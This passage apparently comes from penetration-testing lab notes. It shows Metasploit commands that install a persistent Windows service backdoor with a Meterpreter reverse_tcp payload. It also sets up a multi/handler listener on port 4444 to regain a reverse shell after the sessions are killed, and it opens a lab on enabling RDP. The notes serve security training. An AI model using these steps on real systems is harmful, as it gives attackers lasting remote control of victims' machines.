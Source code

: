 ❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set SESSION 1
run
```

- Successful maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.

![Metasploit - exploit/windows/local/persistence_service](.gitbook/assets/image-20230419223324328.png)

```bash
exit

# Kill all sessions
sessions -K
sessions
	# No active sessions.
```

- Regain access to the system

```bash
use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```

------

## Lab 7 - [Enabling RDP](https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/)

> 🔬 [Windows: Enabling Remote Desktop](https://attackdefense.com/challengedetails?cid=1958)
>
> - Target IP: `10.2.21.205`
> - Enable **RDP** on the target machine on port **`3389`**

```bash
service postgresql start && msfconsole -q
```
